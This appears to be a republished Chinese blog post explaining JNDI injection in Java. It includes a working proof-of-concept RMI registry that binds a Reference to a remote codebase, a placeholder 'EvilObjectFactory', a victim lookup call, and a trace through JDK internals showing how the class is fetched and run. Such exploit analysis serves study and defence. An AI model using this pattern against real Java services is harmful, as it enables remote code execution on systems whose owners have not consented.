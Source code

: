 > 原文链接: https://www.anquanke.com//post/id/87031 


# 【技术分享】关于 JNDI 注入


                                阅读量   
                                **181051**
                            
                        |
                        
                                                                                    



[![](https://p3.ssl.qhimg.com/t01480dfee2b0b54112.jpg)](https://p3.ssl.qhimg.com/t01480dfee2b0b54112.jpg)

<br>

**前言**

一篇炒冷饭的文章，全当笔记在写了，这个漏洞涉及到 JNDI 与 RMI。 这里我主要只写一些其他的 “JNDI 注入” 分析文章没写过的东西，如果你看的不是很明白的话可以配合其他人写的分析文章一起看。



**需要知道的背景知识**

JNDI 的概念不细写了，只需要知道我们通过 JNDI 的接口就可以存取 RMI Registry/LDAP/DNS/NIS 等所谓 Naming Service 或 DirectoryService 的内容

JNDI API 中涉及到的常见的方法与接口的作用，如：Context.lookup

JNDI 中 ServiceProvider 以及 ObjectFactory 的作用

**<br>**

**Reference 类的作用**

RMI 的相关基础知识，可以看我另一篇公众号，我记的非常全。



**JNDI Service Provider**

JNDI 与 JNDI Service Provider 的关系类似于 Windows 中 SSPI 与 SSP 的关系。前者是统一抽象出来的接口，而后者是对接口的具体实现。如上面提到的默认的 JNDI Service Provider 有 RMI/LDAP 等等。。



**ObjectFactory**

每一个 Service Provider 可能配有多个 Object Factory。Object Factory 用于将 Naming Service（如 RMI/LDAP）中存储的数据转换为 Java 中可表达的数据，如 Java 中的对象或 Java 中的基本数据类型。 JNDI 的注入的问题就出在了可远程下载自定义的 ObjectFactory 类上。你如果有兴趣的话可以完整看一下 Service Provider 是如何与多个 ObjectFactory 进行交互的。



**PoC**

```
public static void main( String[] args ) throws Exception
`{`
    // 在本机 1999 端口开启 rmi registry，可以通过 JNDI API 来访问此 rmi registry
    Registry registry = LocateRegistry.createRegistry(1999);
    // 创建一个 Reference，第一个参数无所谓，第二个参数指定 Object Factory 的类名：
    // jndiinj.EvilObjectFactory
    
    // 第三个参数是 codebase，表明如果客户端在 classpath 里面找不到 
    // jndiinj.EvilObjectFactory，则去 http://localhost:9999/ 下载
    // 当然利用的时候这里应该是一个真正的 codebase 的地址
    Reference ref = new Reference("whatever",
            "jndiinj.EvilObjectFactory", "http://localhost:9999/");
    // 利用 ReferenceWrapper 将前面的 Reference 对象包装一下
    // 因为只为只有实现 Remote 接口的对象才能绑定到 rmi registry 里面去
    ReferenceWrapper wrapper = new ReferenceWrapper(ref);
    registry.bind("evil", wrapper);
`}`
```

**<br>**

**EvilObjectFactory**

代码如下：

```
public class EvilObjectFactory implements ObjectFactory `{`
    public Object getObjectInstance(Object obj, Name name,
                                    Context nameCtx,
                                    Hashtable&lt;?, ?&gt; environment) 
            throws Exception `{`
        
        System.out.println("executed");
        return null;
    `}`
`}`
```

**<br>**

**Victim**

Victim 需要执行 Context.lookup，并且 lookup 的参数需要我们可控。



```
public static void main(String[] args) throws Exception `{`
    Context ctx = new InitialContext();
    // ctx.lookup 参数需要可控
    System.out.println(ctx.lookup("rmi://localhost:1999/evil"));
`}`
```

<br>

**我的疑问**

最开始看到 PoC 的时候，我以为这是 RMI Class Loading 导致的受害者会去指定的 codebase 下载我们指定的类并去实例化，因为产生了很大的疑惑。

因为 RMI Class Loading 是有条件限制的，比如说默认禁用，以及与 JVM 的 codebase 配置有很大的关系。

PoC 里面向 rmi registry 绑定 ReferenceWrapper 的时候，真正绑定进去的应该是它的 Stub 才对，Stub 的对象是怎么造成客户端的代码执行的。

因为懒，这个疑问一直存在了很长时间，直到我开始正式去调试跟一下这个漏洞看看到底发生了什么。后来我看在 marshalsec 那篇 pdf 里面也提到了这个问题。

<br>

**Victim 端的触发流程**

1.    ctx.lookup 最终会进入 com.sun.jndi.rmi.registry.RegistryContext.lookup。因为传入的 jndi url 是以 rmi:// 开头的。

```
public Object lookup(Name var1) throws NamingException `{`
    if (var1.isEmpty()) `{`
        return new RegistryContext(this);
    `}` else `{`
        Remote var2;
        try `{`
            var2 = this.registry.lookup(var1.get(0));
        `}` catch (NotBoundException var4) `{`
            throw new NameNotFoundException(var1.get(0));
        `}` catch (RemoteException var5) `{`
            throw (NamingException)wrapRemoteException(var5).fillInStackTrace();
        `}`
        return this.decodeObject(var2, var1.getPrefix(1));
    `}`
`}`
```

2.    在 lookup 里面通过 this.registry.lookup 查找出远程对象，赋给 var2。这里的 var2 确实是 com.sun.jndi.rmi.registry.ReferenceWrapper_Stub 类型的。证明我的想法是没有错的，存入 rmi registry 的确实是一个 stub。

3.    进入 this.decode



```
private Object decodeObject(Remote var1, Name var2) throws NamingException `{`
    try `{`
        Object var3 = var1 instanceof RemoteReference ?
                ((RemoteReference)var1).getReference() : var1;
        return NamingManager.getObjectInstance(var3, var2, 
                this, this.environment);
    `}` catch (NamingException var5) `{`
        throw var5;
    `}` catch (RemoteException var6) `{`
        throw (NamingException)wrapRemoteException(var6).fillInStackTrace();
    `}` catch (Exception var7) `{`
        NamingException var4 = new NamingException();
        var4.setRootCause(var7);
        throw var4;
    `}`
`}`
```

4.    this.decode 内将 stub 还原成了 Reference，这里解决了我一个疑惑。随后进入 NamingManager.getObjectInstance

5.    NamingManager.getObjectInstance 内部发现当前 JVM 中不存在 Reference 中指定的 object factory，就自动去我们指定的 codebase 地址下载（并不是利用的 RMI Class Loading 机制，所以解决了我另一个疑惑）并实例化我们指定的 Object Factory 类，并调用其 javax.naming.spi.ObjectFactory#getObjectInstance 方法。 



**参考资料**

http://docs.oracle.com/javase/jndi/tutorial/TOC.html

http://www.javaworld.com/article/2076888/core-java/jndi-overview–part-1–an-introduction-to-naming-services.html
